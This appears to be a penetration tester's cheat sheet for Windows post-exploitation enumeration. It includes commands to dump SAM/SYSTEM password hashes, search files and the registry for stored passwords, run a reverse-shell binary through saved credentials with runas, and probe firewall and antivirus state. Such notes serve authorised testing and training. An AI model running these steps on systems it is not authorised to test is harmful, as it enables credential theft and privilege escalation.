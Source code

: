 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# 🔎 Windows Post Enumeration

<figure><img src="../../../.gitbook/assets/2024-02-15_21-47 (1).png" alt=""><figcaption></figcaption></figure>

If SYSTEM or SAM found in winPEAS use one of this:&#x20;

{% embed url="https://github.com/CiscoCXSecurity/creddump7/blob/master/pwdump.py" %}

{% hint style="info" %}
windows/system32/config/SAM(or SYSTEM) is where password hashes are located

If AD ntds.dit will have the database

To get the hash:

```bash
impacket-secretsdump -sam SAM -system SYSTEM local
```
{% endhint %}

```bash
python2 pwdump.py /tools /SYSTEM /tools/SAM
```

{% embed url="https://github.com/h4ms1k/samdump" %}

{% hint style="info" %}
If starts with 3186 it is an empty string
{% endhint %}

## Automatic

**Wesng**:

{% code overflow="wrap" %}
```bash
python3 wesng.py /tools/systeminfo.txt -i 'Elevation of Privilege' --exploit-only | more
```
{% endcode %}

## Manual:

Get stored passwords:

```
cmdkey /list
```

```
runas /savecred /user:admin C:\Path\to\reverse.exe
```

```
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml 
findstr /SIM /C:"GitLab" *.txt  #Replace GitLab with any keyword
```

System info (cmd):&#x20;

{% code title="Chimichurri for Windows 2008 R1 & R2, Windows Vista and Windows 7" %}
```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```
{% endcode %}

Check files with pass in name or .config in current directory recursively:

{% code title="Run  in temp or suspicious program directory" %}
```
dir /s *pass* == *.config
```
{% endcode %}

List all scheduled tasks:

```
schtasks /query /fo LIST /v
```

To check all processes running:

```powershell
get-process
```

Check password in registry:

```
reg query HKLM /f password /t REG_SZ /s
```

```
reg query HKCU /f password /t REG_SZ /s
```

Get patches:&#x20;

```
wmic qfe
```

&#x20;To get disks:&#x20;

```
wmic logicaldisk
```

To check privileges:&#x20;

```
whoami /priv
```

&#x20;To check groups involved in:&#x20;

```
whoami /groups
```

To check users:

```
net user
```

Can also check specific user with:&#x20;

```
net user administrator
```

We can check group details from above command with:

```
net localgroup
```

&#x20;To look at arp table:&#x20;

```
arp -a 
```

Print route:&#x20;

```
route print 
```

For active connections:&#x20;

```
netstat -ano
```

Search password (In the directory)

```
findstr /si password *.txt *.ini *.config
```

### Check Firewall and AV

To check windows defender

```
sc query windefend
```

Check all processes

```
sc queryex type= service
```

#### Check firewall :

```
netsh advfirewall firewall dump
```

```
netsh firewall show state
```

```
netsh firewall show config
```
